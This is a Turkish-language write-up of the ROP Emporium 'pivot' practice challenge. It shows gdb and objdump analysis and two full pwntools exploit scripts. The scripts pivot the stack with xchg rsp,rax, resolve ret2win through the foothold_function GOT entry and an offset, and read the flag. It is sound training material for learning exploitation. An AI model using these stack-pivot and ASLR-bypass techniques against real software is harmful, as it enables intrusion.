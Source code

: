 # ROP Emporium `pivot` Writeup

![detail](img/detail.png)

Stack içerisinde `ROP` için sadece 3 aşamalı bir yer olduğunu (8 byte x 3) bu yüzden de daha büyük bir `rop chain` için daha büyük bir alan bulup yığının konumunu o alana döndürmemiz beklenmekte...

    [alp@eren]$ gdb -q pivot
    gdb-peda$ run

![run](img/run.png)

Öncelikle diğerlerinden farklı olarak programımız iki aşamadan/inputtan oluşmakta.

Bize `libpivot.so` içerisinden `ret2win` fonksiyonunu çağırmamız gerekiyor. Peki ne var bu fonskiyonun içerisinde ?

    gdb -q libpivot.so

![ret2win](img/ret2win.png)

`flag.txt` dosyamızı okumamızı sağlayacak komutu çalıştırıyormuş. Bunu bi kenara not edip devam edelim. Programı çalıştırdığımız zaman bize bir adres veriyor. Peki bu adres neyin nesidir ? Öğrenmek için pwnme fonksiyonumuzda ilk `fgets` çağrısının olduğu yere bir breakpoint koyalım.

![pwnme](img/pwnme.png)

Şimdi programımızı çalıştıralım ve `ni` diyerek ilk girdimizi girelim

![run](img/0.png)

Ve gördüğümüz üzere ilk girdimizin bulunduğu adres ile bize ilk başta söylediği adres aynı. Adresi bize verirken söylediği mesajı hatırlayacak olursak demekki buraya dönmemiz beklenmekte. `0x100` yani 256 karakterlik yerimiz mevcut. İkinci beklediği girdide ise `0x40` yani 64 karakterlik yerimiz mevcut. `lea rax, [rbp-0x20]` komutuyla açılan yer ile `mov esi,0x40` ile açılan yeri karıştırmamak lazım. Şöyle ki eğer ikinci girdide 70 tane "A" gönderirsek...

![70*A](img/70A.png)

70 karakterden sadece 63 tanesini okuyabilecektir. Ve bize en başta söylediği gibi 23 karakter (three-link chain) ' lik bir ROP yazabiliyoruz. (Diğer seviyelerde de hatırlayacağınız üzere zaten offsetimiz 40 karakterdi)

O zaman asıl `ROP` komutlarımızı ilk girdimizde rahat rahat gireceğiz. Daha sonra ikinci girdi de max 3 komut ile bize en başta vermiş olduğu yani asıl ROP komutlarımızın olduğu yere sıçramasını sağlayacağız. Bunun için elimizde neler var olduğuna `objdump` ile bir bakalım

![use](img/use.png)

`usefulGadgets` içerisinde bulunan `xchg rsp,rax` işimizi görebilir. `rsp` adresini bize verdiği adres yaparsak eklediğimiz tüm ROP komutları sorunsuz bir şekilde çalışacaktır. Bunun için `rax` registerına pivot adresimizi yazmamız gerekli. Bir `pop rax, ret` komutu olsa ne güzel olurdu derseniz eğer o da `usefulGadgets` içerisinde mevcut :) O halde ikinci girdimizde kullanacağımız herşey hazır.

```python
# ROP Emporium pivot Exploit

from pwn import *

elf = ELF('pivot')

# ROP Gadgets
pop_rax = p64(0x400b00) # pop rax ; ret
xchg_rsp_rax = p64(0x400b02) # xchg rsp,rax ; ret

# Run pivot & take pivot address
e = process('./pivot')
pivot = int(e.recv().splitlines()[4].split()[-1], 16)
print ("\n[*] Pivot Address : " + hex(pivot))

# Send ROP Chain to pivot address
rop = "rop chain"
e.sendline(rop)

# Return pivot address
payload = ("A"*40).encode() # offset 40
payload += pop_rax
payload += p64(pivot)
payload += xchg_rsp_rax

e.sendline(payload)
print (e.recvall())
```

Sıra geldi zurnanın zırt dediği yere. `ret2win` fonksiyonunu çağıracaz çağırmasına da bu fonksiyon `pivot` içerisinde değil `libpivot.so` içerisinde kullanılmış. Eee `aslr` korumasının da açık olduğunu düşünürsek işimiz biraz zorlaşıyor. Ancak `libpivot.so` içerisinde bulunan ve fonskiyonumuzda da çağrılmış olan bir fonskiyonumuz var.

![foothold](img/foothold.png)

Ancak programımızın normal akışında bu fonksiyonda çağrılmıyor o yüzden bizim çağırmamız gerekecek, fonksiyonunun adresini bi kenara not edelim.

`ret2win` fonksiyonuna ulaşmak için `foothold_function` fonksiyonunun `.got.plt` girdisini bulmamız lazım.

    objdump -R pivot

![1](img/1.png)

Adresimizi bulduk şimdi `libpivot.so` içerisinde `foothold_function` ile `ret2win` arasındaki offseti bulalım

```bash
objdump -d libpivot.so | grep "ret2win"                  
  0000000000000abe <ret2win>:
objdump -d libpivot.so | grep "foothold"
  0000000000000970 <foothold_function>:
```

`0xabe - 0x970` => `0x14e` offsetimizide bulduk.

Artık `foothold_function` fonksiyonunu çağırıp daha sonra `GOT` girişini doldurabiliriz. Bunun için birkaç `rop Gadgets` ihtiyacımız olacak

```python
# ROP Emporium pivot Exploit

from pwn import *

elf = ELF('pivot')

foothold_func = p64(0x400850)
foothold_func_got_plt = p64(0x602048)
#ROP Gadgets
pop_rax = p64(0x400b00) # pop rax ; ret
xchg_rsp_rax = p64(0x400b02) # xchg rsp,rax ; ret
mov_rax = p64(0x400b05) # mov rax, qword pr [rax] ; ret
add_rax_rbp = p64(0x400b09) # add rax,rbp ; ret
pop_rbp = p64(0x400900) # pop rbp ; ret
call_rax = p64(0x40098e) # call rax

# Run pivot & take pivot address
e = process('./pivot')
pivot = int(e.recv().splitlines()[4].split()[-1], 16)
print ("\n[*] Pivot Address : " + hex(pivot))

# Send ROP Chain to pivot address
rop = foothold_func
rop += pop_rax
rop += foothold_func_got_plt
rop += mov_rax
rop += pop_rbp
rop += p64(0x14e)
rop += add_rax_rbp
rop += call_rax

e.sendline(rop)

# Return pivot address
payload = ("A"*40).encode() # offset 40
payload += pop_rax
payload += p64(pivot)
payload += xchg_rsp_rax

e.sendline(payload)
print (e.recvall())
```

Artık çalıştırmaya hazır

![exploit](img/exploit.png) 
